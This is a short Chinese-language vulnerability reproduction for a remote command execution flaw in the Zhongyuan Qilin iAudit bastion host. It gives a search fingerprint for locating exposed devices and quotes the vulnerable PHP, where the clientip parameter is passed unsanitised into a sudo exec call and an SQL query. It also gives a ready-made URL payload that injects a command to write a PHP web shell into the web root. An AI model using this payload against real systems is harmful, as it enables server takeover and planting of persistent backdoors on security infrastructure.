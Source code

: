 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
中远麒麟 iAudit堡垒机
```

## 网络测绘

```
cert.subject="Baolei"
```

## 漏洞复现

登录页面如下

![image-20220525100240635](images/202205251002739.png)

出现漏洞的文件为 get_luser_by_sshport.php

```
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```

其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![image-20220525100301367](images/202205251003398.png)

再访问写入的文件执行命令

![image-20220525100311413](images/202205251003445.png)
